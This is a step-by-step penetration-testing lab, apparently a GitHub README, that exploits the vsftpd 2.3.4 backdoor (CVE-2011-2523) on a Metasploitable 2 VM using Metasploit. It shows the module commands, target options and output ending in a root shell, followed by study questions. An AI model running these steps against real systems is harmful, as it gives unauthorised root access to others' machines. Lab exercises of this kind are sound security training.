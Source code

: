 # vsftp Backdoor Vulnerability [CVE-2011-2523]

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Metaploitable 2 | The Metasploitable 2 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Metasploitable 2 IP | The IP address of the Metasploitable 2 VM. In my case it is 192.168.8.142. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Search for the appropriate module

`search vsftpd`

```
Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution

Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
```

### 3. Use the module

`use exploit/unix/ftp/vsftpd_234_backdoor`

### 4. Check the module options

`options`

```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)

Payload options (cmd/unix/interact):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.
```

### 5. Set the appropriate options

`set RHOSTS 192.168.8.142`

```
RHOSTS => 192.168.8.142
```

### 6. Run the exploit

`exploit`

```
[*] 192.168.8.142:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.8.142:21 - USER: 331 Please specify the password.
[+] 192.168.8.142:21 - Backdoor service has been spawned, handling...
[+] 192.168.8.142:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.8.147:44153 -> 192.168.8.142:6200) at 2023-03-28 06:45:59 -0400
```

# Video

Video that resumes everything on this laboratory.

![](assets/vsftpd.gif)

# Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?
4. Try to learn more about this vulnerability.